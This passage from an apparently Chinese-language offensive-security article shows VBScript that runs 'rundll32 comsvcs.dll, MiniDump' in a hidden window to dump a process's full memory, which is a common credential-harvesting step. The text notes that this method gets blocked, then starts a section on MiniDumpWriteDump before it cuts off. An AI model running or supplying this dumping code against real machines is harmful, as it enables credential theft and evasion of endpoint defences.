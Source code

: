 ```

    For Each proc in list
      pid = proc.ProcessId
      str = proc.Name
      Exit For
    Next

    dmp = fso.GetBaseName(str) &amp; ".bin"

    ' if dump file already exists, try to remove it
    If(fso.FileExists(dmp)) Then
      WScript.StdOut.WriteLine("Removing " &amp; dmp)
      fso.DeleteFile(dmp)
    End If

    WScript.StdOut.WriteLine("Attempting to dump memory from " &amp; _
      str &amp; ":" &amp; pid &amp; " to " &amp; dmp)

    Set proc       = svc.Get("Win32_Process")
    Set startup    = svc.Get("Win32_ProcessStartup")
    Set cfg        = startup.SpawnInstance_
    cfg.ShowWindow = SW_HIDE

    cmd = "rundll32 C:\windows\system32\comsvcs.dll, MiniDump " &amp; _
          pid &amp; " " &amp; fso.GetAbsolutePathName(".") &amp; "\" &amp; _
          dmp &amp; " full"

    Call proc.Create (cmd, null, cfg, pid)

    ' sleep for a second
    Wscript.Sleep(1000)

    If(fso.FileExists(dmp)) Then
      WScript.StdOut.WriteLine("Memory saved to " &amp; dmp)
    Else
      WScript.StdOut.WriteLine("Something went wrong.")
    End If
End If
```

但是直接出现通过rundll方式调用已经被列入是可疑行为，同样会被拦截

[![](https://p2.ssl.qhimg.com/t0108b7e01de78443be.png)](https://p2.ssl.qhimg.com/t0108b7e01de78443be.png)



## 2.自定义转储

目前比较常见的首发使用`MiniDumpWriteDump`这个`Windows API`来dump内存，该API位于dbghelp.dll中的导出函数:

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t017852b29f7c5233f7.png)
